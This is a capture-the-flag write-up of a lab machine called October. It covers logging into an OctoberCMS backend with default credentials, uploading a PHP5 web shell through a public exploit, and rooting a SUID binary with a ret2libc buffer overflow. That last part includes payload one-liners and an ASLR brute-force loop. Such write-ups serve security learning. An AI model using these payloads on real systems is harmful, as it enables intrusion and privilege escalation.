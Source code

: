 # October

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

We don't need to add anything into the hosts file.

### OctoberCMS

The website was running OctoberCMS and appears to have a default look:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Registering an account and trying to do stuff with it was useless and had no functionalities. So instead, we can abuse the fact that OctoberCMS is an open-source project. A quick Google search reveals that the backend of this is at `/backend`:

{% embed url="https://octobercms.com/forum/post/how-do-i-access-the-backend" %}

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

We can use the default credentials of `admin:admin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption></figcaption></figure>

OctoberCMS has quite a few exploits:

{% embed url="https://www.exploit-db.com/exploits/41936" %}

We can use one of them to upload a `cmd.php5` file to execute on the server, as `php5` is not blocked on the server:

<figure><img src="../../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can confirm we have RCE via `curl`.

<figure><img src="../../../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell is then trivial.

## Privilege Escalation

### Ret2Libc

I ran a LinPEAS scan on the machine, and found this weird SUID binary called `overflw`:

<figure><img src="../../../.gitbook/assets/image (35) (4).png" alt=""><figcaption></figcaption></figure>

I opened it up in Ghidra to view what it does:

<figure><img src="../../../.gitbook/assets/image (27) (1) (4).png" alt=""><figcaption></figcaption></figure>

It appears we have a classic BOF expliot to do here. The `strcpy` function is vulnerable, and the buffer is pretty short. Doing a `checksec` reveals that NX is enabled but PIE is disabled:

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

In this case, we can go for a Ret2Libc attack. First, we find the buffer size:

<figure><img src="../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>

Fixed at 112 it appears (same as length of `local_74`). Now, we can use `ldd` to find the address where `libc` is loaded on the machine:

<figure><img src="../../../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

Then we can simply execute the following commands to get the addresses we need

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

Afterwards, we can use a python one-liner to print the contents of the payload:

{% code overflow="wrap" %}
```python
python2 -c 'print"\x90" * 112 + "\x10\x83\x62\xb7" + "\x60\xb2\x61\xb7" + "\xac\xab\x74\xb7"'
```
{% endcode %}

When run however, it didn't work on the machine. Turns out, the machine itself already had ASLR enabled, and this can be verified in `/proc/sys/kernel/randomize_va_space`. Also, when checking the addresses, it seems to randomly shift each time.

In this case, we can check the **range of addresses which ASLR spans**. In this case, the range of addreses looks rather small since `libc` is loaded at roughly the same location:

```
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc  
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b1000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb763b000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7606000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7591000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7624000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7558000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7567000)
```

So, we can set up a `bash` script to keep looping until we get a successful exploit.&#x20;

{% code overflow="wrap" %}
```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
